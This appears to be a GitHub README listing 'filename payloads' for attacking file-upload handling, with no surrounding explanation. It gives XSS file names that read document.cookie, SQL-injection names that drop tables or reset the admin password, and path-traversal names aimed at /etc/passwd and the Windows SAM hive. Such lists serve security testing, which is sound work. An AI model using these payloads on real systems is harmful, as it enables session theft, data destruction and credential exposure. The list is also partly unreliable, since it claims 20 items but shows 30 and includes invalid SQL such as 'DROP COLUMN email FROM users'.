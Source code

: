 # Filename-Payloads
Filename Vulbs
Here are 20 examples of filename vulnerabilities:

*Filename XSS*

1. `<script>alert(document.cookie)</script>.jpg`
2. `<iframe src="javascript:alert(document.cookie)"></iframe>.jpg`
3. `onload=alert(document.cookie)>.jpg`
4. `onerror=alert(document.cookie)>.jpg`
5. `onmouseover=alert(document.cookie)>.jpg`
6. `onmouseout=alert(document.cookie)>.jpg`
7. `onmousemove=alert(document.cookie)>.jpg`
8. `onkeydown=alert(document.cookie)>.jpg`
9. `onkeyup=alert(document.cookie)>.jpg`
10. `onkeypress=alert(document.cookie)>.jpg`

*Filename SQLi*

1. `'; DROP TABLE users; --.jpg`
2. `'; SELECT * FROM users; --.jpg`
3. `'; UPDATE users SET password = 'password' WHERE username = 'admin'; --.jpg`
4. `'; DELETE FROM users WHERE username = 'admin'; --.jpg`
5. `'; INSERT INTO users (username, password) VALUES ('admin', 'password'); --.jpg`
6. `'; CREATE TABLE users (username VARCHAR(255), password VARCHAR(255)); --.jpg`
7. `'; ALTER TABLE users ADD COLUMN email VARCHAR(255); --.jpg`
8. `'; DROP COLUMN email FROM users; --.jpg`
9. `'; RENAME TABLE users TO new_users; --.jpg`
10. `'; TRUNCATE TABLE users; --.jpg`

*Filename Path Traversal*

1. `../../../../etc/passwd`
2. `../../../../boot.ini`
3. `../../../../windows/system32/config/system`
4. `../../../../Program Files/Microsoft Office/Office12/WINWORD.EXE`
5. `../../../../Program Files/Adobe/Photoshop/Photoshop.exe`
6. `../../../../Program Files/Mozilla Firefox/firefox.exe`
7. `../../../../Program Files/Google Chrome/Chrome.exe`
8. `../../../../Program Files/Internet Explorer/iexplore.exe`
9. `../../../../Program Files/Opera/opera.exe`
10. `../../../../Program Files/Safari/Safari.exe`
